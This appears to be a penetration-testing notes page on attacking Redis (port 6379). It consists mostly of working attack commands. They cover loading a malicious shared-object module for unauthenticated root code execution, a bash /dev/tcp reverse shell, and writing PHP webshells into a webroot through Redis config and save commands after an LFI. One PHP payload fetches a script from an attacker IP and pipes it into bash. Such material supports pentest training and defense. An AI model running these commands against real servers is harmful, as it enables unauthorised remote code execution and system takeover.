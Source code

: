 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# 6379 - Redis

Redis is an open-source, in-memory key-value data store used for high-performance caching, message brokering, and real-time analytics. It supports a variety of data structures like strings, hashes, lists, sets, and sorted sets, and operates entirely in memory for speed, with optional persistence to disk. By default, Redis listens on TCP port `6379` and **has no authentication or encryption unless explicitly configured**, which often makes it a target during red team operations. The default configuration file is located at `/etc/redis/redis.conf`.

## Usage

{% tabs %}
{% tab title="Basic" %}
```bash
redis-cli -u redis://target:port
> INFO
> ACL WHOAMI # List current context
> ACL LIST # List user's ACL
> CONFIG GET DIR # List on-disk persistence directories
> CONFIG SET DIR /tmp # Change directory
> SLAVEOF 10.10.10.10 8080 # Point replication to a malicious server
```
{% endtab %}
{% endtabs %}

## Unauthenticated Root RCE

In Redis `4.x` and `5.x` instances the ability to load shared object (`.so`) modules at runtime can leveraged to gain RCE. Exploitation requires two conditions to be met:

1. **Privileged Access to Redis** → The attacker must be able to issue privileged Redis commands such as `MODULE LOAD`. This is possible if the Redis instance is exposed to the internet without authentication or the attacker has acquired valid credentials to an authenticated instance. In addition, Redis must not restrict module loading; unless explicitly disabled, this capability is broadly accessible in insecure deployments.
2. **Writable Location on Target Filesystem** → The attacker must be able to place a malicious `.so` file on the target machine. Two main techniques can be used:
   1. Abuse Redis’s persistence settings: using `CONFIG SET dir` and `CONFIG SET dbfilename`, combined with `SAVE`, an attacker can write arbitrary files to locations such as `/tmp/`.
   2. Upload externally: if another service (e.g., FTP) exposes a writable path, the attacker can upload the `.so` file and instruct Redis to load it by its absolute path.

Once the malicious module is in place, Redis will load it and execute the attacker's code within the server's process space, effectively achieving RCE. For either case, a `.so` file must be created. This can be done via the original [PoC](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand) or its modified [more modern version](https://github.com/CSpanias/redis-module-rce):

{% code overflow="wrap" %}
```bash
$ git clone https://github.com/CSpanias/redis-module-rce && cd redis-module-rce && make
<SNIP>
gcc -Wall -fPIC -O2 -std=gnu99 -Imodule -shared -o module.so module/module.c

$ cd redis-module-rce
$ ls -l module.so
-rwxr-xr-x 1 x7331 x7331 38704 Aug  1 14:29 module.so

$ file module.so
module.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=c35119dc82e22bb135fb85215b9c0f40c98edde4, not stripped
```
{% endcode %}

{% tabs %}
{% tab title="Redis Persistence Settings" %}
This [PoC](https://github.com/CSpanias/redis-module-rce) can be used to leverage the Redis settings:

```bash
./redis-rce.py --rhost redis-instance --lhost 192.168.45.170
```
{% endtab %}

{% tab title="External Upload" %}
If `write` access to the target host is already obtained, i.e., via FTP, the `.so` file can be uploaded and then loaded into Redis:

```bash
# Upload the .so file to the target host via FTP
$ ftp ftp@redis-target
ftp> cd pub
ftp> put module.so
ftp>exit
​
# Connect to the Redis instance
$ redis-cli -h redis-target
redis-target:6379> MODULE LOAD /var/ftp/pub/module.so # Load the module
OK

redis-target:6379> MODULE LIST # Confirm that the module is loaded
1) 1) "name"
   2) "system" # The function of interest
   3) "ver"
   4) (integer) 1

redis-target:6379> system.exec "id" # System command execution

redis-target:6379> system.rev 192.168.45.170 6379 # Reverse shell
```
{% endtab %}
{% endtabs %}

## Authenticated RCE

{% tabs %}
{% tab title="Webroot & Writable Paths" %}
The apache configuration file (`/etc/apache2/sites-enabled/000-default.conf`) can be used to find the webroot and the Redis service configuration (`/etc/systemd/system/redis.service`) can be used to find writable paths:

{% code overflow="wrap" %}
```bash
# Find the webroot (e.g. via LFI)
$ curl http://wp-instance/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/apache2/sites-enabled/000-default.conf

DocumentRoot /var/www/html
 
$ curl http://wp-instance/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/systemd/system/redis.service          

ReadWriteDirectories=-/etc/redis
ReadWriteDirectories=-/opt/redis-files
```
{% endcode %}
{% endtab %}

{% tab title="Webshell" %}
Create a webshell to test RCE:

```bash
$ redis-cli -h wp-instance -a Passw0rd123!
wp-instance:6379> config set dir /opt/redis-files
OK
wp-instance:6379> config set dbfilename test.php
OK
wp-instance:6379> set test "<?php system('id'); ?>"
OK
wp-instance:6379> save
OK
```

The contents of the file will be in RDB format so we can write it to the a file and run `strings`:

{% code overflow="wrap" %}
```bash
$ curl -s http://wp-instance/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/opt/redis-files/test.php -o test.php
                                                                                                            
$ file test.php                  
test.php: Redis RDB file, version 0009
                                                                                                            
$ strings test.php      
<SNIP>
uid=1000(bob) gid=1000(bob) groups=1000(bob)
```
{% endcode %}
{% endtab %}

{% tab title="RevShell" %}
{% code title="shell.sh" %}
```bash
#!/bin/bash

/bin/bash -i >& /dev/tcp/192.168.45.170/9002 0>&1
```
{% endcode %}

{% code overflow="wrap" %}
```bash
wp-instance:6379> config set dir /opt/redis-files
OK
wp-instance:6379> config set dbfilename test.php
OK
wp-instance:6379> set test "<?php system('curl 192.168.45.170/shell.sh | bash'); ?>"
OK
```
{% endcode %}

{% code overflow="wrap" %}
```bash
# Trigger the revshell
$ curl http://wp-instance/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/opt/redis-files/test.php
```
{% endcode %}
{% endtab %}
{% endtabs %}

